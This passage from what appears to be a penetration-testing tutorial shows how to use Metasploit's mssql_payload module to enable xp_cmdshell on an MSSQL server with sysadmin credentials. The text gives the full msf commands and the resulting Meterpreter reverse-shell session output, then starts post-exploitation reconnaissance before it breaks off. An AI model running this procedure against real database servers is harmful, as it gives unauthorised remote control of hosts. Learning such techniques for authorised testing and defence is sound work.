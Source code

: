 The last technique I'll discuss is gaining access to the underlying operating system that the database is running on. Having sysadmin credentials on the database is awesome but having admin on the underlying operating system is even better. As I mentioned before the stored procedure xp\_cmdshell is the best way to gain this kind of access but as you can see from the metasploit enum module xp\_cmdshell isn't always at our disposal. The xp\_cmdshell was enabled by default on mssql 2000 but mssql 2005 and beyond by default does not enable this stored procedure. Even so a mssql 2000 database administrator could disable it as well. One way and maybe the easiest way is to use metasploits mssql\_payload module to enable the xp\_cmdshell and give you a meterpreter shell back. Below is the command you'll need to run. You have to set at least the host you're targeting (rhost) and the password of the "sa" account. This module will not work unless the user you're authenticating with has sysadmin credentials, so the account doesn't have to be "sa" but it has to be a user with a sysadmin role.

\[cce\]
msf > use exploit/windows/mssql/mssql_payload
msf  exploit(mssql_payload) > set rhost 192.168.134.132
rhost => 192.168.134.132
msf  exploit(mssql_payload) > set password password
password => password
msf  exploit(mssql_payload) > exploit

[*] Started reverse handler on 192.168.134.135:4444
[*] Command Stager progress -   1.47% done (1499/102246 bytes)
[*] Command Stager progress -   2.93% done (2998/102246 bytes)
snip
.
.
[*] Command Stager progress -  99.59% done (101827/102246 bytes)
[*] Sending stage (752128 bytes) to 192.168.134.132
[*] Command Stager progress - 100.00% done (102246/102246 bytes)
[*] Meterpreter session 1 opened (192.168.134.135:4444 -> 192.168.134.132:1046) at 2011-12-21 22:43:36 -0500

meterpreter >
\[/cce\]

So at this point we have a meterpreter command prompt on the target computer which is better than a regular windows command prompt. From here we can launch a number of attacks. I'm not going to touch on those for that just simply google "post exploitation" to get an idea of what you may want to accomplish next. At this point its a good idea to make sure you're on the right computer and determine the types of credentials we have on our target machine. The following commands will determine that information.

\[cce\]
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0

Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:4c:37:8e
IP Address  : 192.168.134.132
Netmask     : 255.255.255.0
